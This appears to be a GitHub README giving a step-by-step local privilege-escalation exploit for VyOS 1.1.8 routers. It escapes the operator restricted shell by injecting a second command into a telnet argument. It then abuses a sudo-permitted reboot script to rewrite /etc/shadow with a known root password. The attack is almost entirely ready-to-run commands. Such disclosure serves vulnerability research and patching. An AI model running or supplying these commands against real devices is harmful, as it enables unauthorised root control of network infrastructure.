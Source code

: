 # VyOS-Get-Root
Getting root on VyOS from an operator CLI

If you have operator-level console access on VyOS (or possibly another OS derived from Vyatta - Brocade vRouter or Ubiquiti EdgeOS) then you can use this technique to gain console access as root.  This has been tested on VyOS version 1.1.8.

The operator mode is already known to be insecure in other ways, so the account is normally not available.  However some administrators have manually added operator accounts.  Here is an example of how an operator account could be created.

`configure`
`set system login user operator level operator`
`set system login user operator authentication plaintext-password Operator123`
`commit`
`save`

Once logged in as `operator` with the password of `Operator123` in this example, you will be dropped into a restricted shell `/opt/vyatta/bin/restricted-shell` that normally does not have configuration write capabilities or access to the bash shell and commands.

Execute the following command to escape out of the `restricted-shell` and acquire a normal `bash` shell:<br />
`telnet "127.0.0.1;bash"`

See that you can now execute bash commands:<br />
`id`<br />
`sudo -l`

You should notice from the above command that an operator has limited sudo capabilities to scripts located under `/opt/vyatta/bin/sudo-users/`

You can exploit the `vyatta-reboot.pl` script to change the root password:<br />
``echo '`ROOTPW=$(openssl passwd -1 pwn3d); echo "root:$ROOTPW:17481:0:99999:7:::" > /tmp/shadow; tail -n +2 /etc/shadow >> /tmp/shadow; mv /tmp/shadow /etc/shadow; chmod 640 /etc/shadow; chown root:shadow /etc/shadow`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and login as `root` with a password of `pwn3d`.
